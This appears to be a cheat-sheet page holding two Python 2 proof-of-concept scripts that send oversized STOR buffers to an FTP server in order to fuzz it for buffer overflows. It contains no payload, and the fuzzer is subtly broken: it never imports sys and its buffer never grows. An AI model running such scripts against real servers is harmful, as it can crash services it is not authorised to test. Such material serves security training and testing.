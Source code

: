 
PROOF OF CONCEPT (POC)
----------------------
{: .-two-column}

### Example Connection FTP POC [poc-test.py]
```python
#!/usr/bin/python
import sys
import socket
import time
from struct import *

rhost = 'x.x.x.x'
port = 21

buffer = "A" * 100
buffer +='\r\n'
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((rhost, port))
        print s.recv(2048)
        s.send('USER 0xffff\r\n')
        print s.recv(2048)
        s.send('PASS eder@sec4us\r\n')
        print s.recv(2048)
        s.send('STOR ' + buffer)
        print s.recv(2048)
        s.close()
        print "Sent Buffer of %s bytes" %len(buffer)
except socket.error as error:
        s.close()
        print error
```

### Simple Connection FTP POC Fuzzer [fuzzer.py]
```python
#!/usr/bin/python

import socket, time

remoteip="x.x.x.x"
port=21

size=100
buffer = "A" * size
while True:

    print "Fuzzing with %s bytes" % len(buffer)
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        s.connect((remoteip, port))
    except:
        print ("[-] Connection error!")
        sys.exit(1)

    print s.recv(1024)
    print "Sending username..."
    s.send('USER anonymous\r\n')
    print s.recv(1024)
    print "Sending pass..."
    s.send('PASS 0xffff@sec4us.com.br\r\n')
    print s.recv(1024)
    s.send('STOR ' + buffer +'\r\n')
```